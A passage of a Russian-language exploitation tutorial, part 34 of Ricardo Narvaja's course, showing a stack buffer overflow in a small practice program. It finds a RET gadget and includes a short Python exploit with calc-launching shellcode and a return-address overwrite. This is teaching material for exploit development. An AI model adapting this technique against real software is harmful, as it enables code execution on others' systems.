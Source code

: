 ![33.png](https://wasm.in/attachments/33-png.2783/)   
  
Скажем так - «Это хороший **RET**». Давайте добавим его.  
  
![34.png](https://wasm.in/attachments/34-png.2784/)   
  
Давайте теперь попробуем с ним.  
  
![35.png](https://wasm.in/attachments/35-png.2785/)   
  
Я вижу, что программа уже совершает переход, чтобы выполнить мой код **CCCCCCCC**, который я добавил как шеллкод. Сейчас, я бы мог перестроить код, который я хотел бы туда поместить, и выполнить то, что захочу я захочу, потому что здесь нет **DEP**. Единственное, что у программы мало свободного места, потому что я выделил буфер только длиной **30** байт, который мешает мне делать большие вещи.  
  
Я подготовил шеллкод, который запустит калькулятор:  
  
  
**import** struct shellcode =  
**"\xB8\x40\x50\x03\x78\xC7\x40\x04"** + **"calc"** + **"\x83\xC0\x04\x50\x68\x24\x98\x01\x78\x59\xFF\xD1"**  
  
fruta = shellcode + **"A"** \* \(36-len\(shellcode\)\) + **"\x3a\x10\x40"**  
  
\#0x40103a ret  
  
![36.png](https://wasm.in/attachments/36-png.2786/)   
  
Программа будет «падать», но уже после запуска калькулятора, который является нашей целью.  
  
В следующих частях, мы добавим немного больше упражнений. Некоторые из них будут с **DEP**. Мы также научимся работать с **ROP** и так будем идти шаг за шагом до самой победы.  
  
До встрече в 35 части.  
  
====================================================================  
Автор текста: **Рикардо Нарваха** - **Ricardo** **Narvaja** \(**@ricnar456**\)  
Перевод на английский: **IvinsonCLS \(@IvinsonCLS\)**  
Перевод на русский с испанского+английского: **Яша\_Добрый\_Хакер\(Ростовский фанат Нарвахи\).**  
Перевод специально для форума системного и низкоуровневого программирования — **WASM.IN  
12.03.2018  
Версия 1.0**

